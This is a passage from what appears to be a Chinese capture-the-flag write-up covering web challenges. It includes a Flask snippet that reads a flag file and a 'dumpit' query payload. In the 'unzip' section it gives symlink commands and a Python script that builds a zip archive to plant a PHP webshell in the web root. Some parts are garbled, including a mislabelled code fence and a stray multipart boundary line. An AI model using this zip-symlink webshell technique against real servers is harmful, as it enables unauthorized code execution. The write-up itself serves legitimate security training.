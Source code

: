 ```php
app = Flask(\_\_name\_\_)

@app.route('/')
def index():
    result = subprocess.run(\['cat', '/8c7b84719837708f8a34\_flag'\], stdout=subprocess.PIPE)
    return result.stdout.decode()

if \_\_name\_\_== "\_\_main\_\_":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundary7IWRoUoGnVmsx4c3--
```

最后访问`/flask?name=/`

![](https://cdn.nlark.com/yuque/0/2023/png/26062900/1685275483661-f3708b58-7eb1-4b83-9a7a-dff365cf8e3d.png)

unzip
-----

构造软连接：

```Python
ln -s / .binbin
zip --symlinks root.zip .binbin
```

上传压缩包，解压

再利用软连接.binbin,生成一个可以自动解压到 `.binbin/var/www/html/binbin.php`的压缩包，`binbin.php`是`webshell`

生成压缩包脚本：

```Python
import zipfile

zf = zipfile.ZipFile('out.zip', 'w')

fname = './shell.php'

zf.write(fname, '.binbin/var/www/html/binbin.php')
```

再上传，解压

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-efe4db25b04d6ab346a458f210624612a00ac259.png)

dumpit
------

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-a40350e25ab96d0935683fdf4104223953eb0179.png)

过滤的符号：

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-89a70f4a754ee0e96b8417baf1a19c768ad3592c.png)

/?db=bibin&amp;table\_2\_dump=%00
